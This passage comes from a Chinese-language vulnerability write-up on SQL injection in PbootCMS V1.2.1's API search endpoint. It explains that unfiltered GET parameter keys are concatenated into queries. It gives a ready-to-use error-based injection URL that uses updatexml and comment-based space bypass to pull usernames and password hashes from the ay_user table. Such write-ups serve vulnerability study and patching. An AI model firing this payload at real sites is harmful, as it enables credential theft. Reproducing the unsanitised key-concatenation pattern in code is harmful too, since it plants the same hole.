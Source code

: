 这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。
这里接收了外部了外部所有的get参数然后就直接拼接进入\$where2这个数组
然后带入数据库进行getList方法查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

0x10 api模块注入
----------------

api模块的注入需要后端开启api功能，并且获得 api\_appid 与 api\_secret
才能注入。 或是说 开启了api功能并且关闭了API强制认证 这样也可以注入
所以较鸡助

![](resource/PbootCMSsql注入/media/rId44.jpg)

0x10.1 接口注入一
-----------------

### 0x10.1.1 漏洞演示

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/search?1%3D1)and(updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1))--=1
    post：
        11=11

一定要post 要跑空post才能进流程

因为系统中会把 "空格"转为"\_" 所以使用/\*\*/绕过即可

### 0x10.1.2 漏洞讲解

路径：apps\\api\\controller\\CmsController.php 方法：search(
这里我把漏洞触发点发出来我们主要讲讲他即可

    // 数据接收
    foreach ($_GET as $key => $value) {
      if (! ! $value = get($key, 'vars')) {
        $where[$key] = $value;
      }
    }
    $data = $this->model->getList($acode, $scode, $num, $order, $where, $fuzzy);

从代码中看他会收集外部所有的 \$\_GET 带入 getList 进行入库查询 value
是我们无法控制所以无法注入的，可是key是我们可控制可注入的！！！跟进
getList方法 路径：PbootCMS-V1.2.1\\apps\\api\\model\\CmsModel.php
function getList(

    // 列表内容
        public function getList($acode, $scode, $num, $order, $where = array(), $fuzzy = true)
        {
            ...
            // 筛选条件支持模糊匹配
            return parent::table('ay_content a')->field($fields)
                ->where($where1, 'OR')
                ->where($where2)
                ->where($where, 'AND', 'AND', $fuzzy)
                ->join($join)
                ->order($order)
                ->page(1, $num)
                ->decode()
                ->select();
        }
